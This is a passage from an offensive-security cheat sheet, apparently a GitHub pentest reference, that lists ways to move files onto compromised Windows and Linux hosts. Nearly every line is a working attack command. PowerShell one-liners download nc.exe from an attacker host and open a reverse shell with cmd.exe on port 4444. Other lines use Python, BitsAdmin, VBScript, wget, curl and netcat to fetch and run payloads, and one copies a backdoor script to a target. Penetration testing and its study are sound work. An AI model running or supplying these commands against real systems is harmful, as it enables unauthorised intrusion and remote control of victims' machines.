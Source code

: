 ```python
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

#### HTTP: Powershell

```text
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');
```

#### HTTP: VBScript

Copy and paste contents of [wget.vbs](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/wget-cscript) into a Windows Shell and then:

```text
cscript wget.vbs http://$ATTACKER/file.exe localfile.exe
```

#### HTTP: Linux

```bash
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```

#### NetCat

```bash
# Attacker
nc -l -p 4444 < /tool/file.exe

# Victim
nc $ATTACKER 4444 > file.exe
```

#### HTTP: Windows "debug.exe" Method

```bash
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt
# 2. Paste nc.txt into Windows Shell.
```

#### HTTP: Windows BitsAdmin

```bash
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
```

